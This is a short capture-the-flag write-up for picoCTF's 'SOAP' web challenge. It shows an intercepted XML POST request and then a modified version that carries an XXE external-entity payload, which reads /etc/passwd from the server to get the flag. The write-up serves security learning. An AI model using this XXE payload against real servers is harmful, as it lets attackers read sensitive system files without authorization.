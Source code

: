 # Challange Info

Name : SOAP

Difficulty : Medium

Category : Web Exploitation

Link : https://play.picoctf.org/practice/challenge/376?category=1&page=2

# Writeup

Navigating the webapp.

There are three buttons which shows details on webapp.

Capturing one of the detail request and send it to repeater.

```
POST /data HTTP/1.1

Host: saturn.picoctf.net:62138

Content-Length: 61

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Content-Type: application/xml

Accept: */*

Origin: http://saturn.picoctf.net:62138

Referer: http://saturn.picoctf.net:62138/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
  <data>
    <ID>
      1
    </ID>
  </data>
```

The data is sent via xml which can lead to XXE and description says we need to read /etc/passwd file so we modify the request.

```
POST /data HTTP/1.1

Host: saturn.picoctf.net:62138

Content-Length: 142

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Content-Type: application/xml

Accept: */*

Origin: http://saturn.picoctf.net:61871

Referer: http://saturn.picoctf.net:61871/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE replace [<!ENTITY file SYSTEM"file:///etc/passwd">]>
  <data>
    <ID>
      &file;
    </ID>
  </data>
```

This will display the /etc/passwd file from the server which contains the flag.
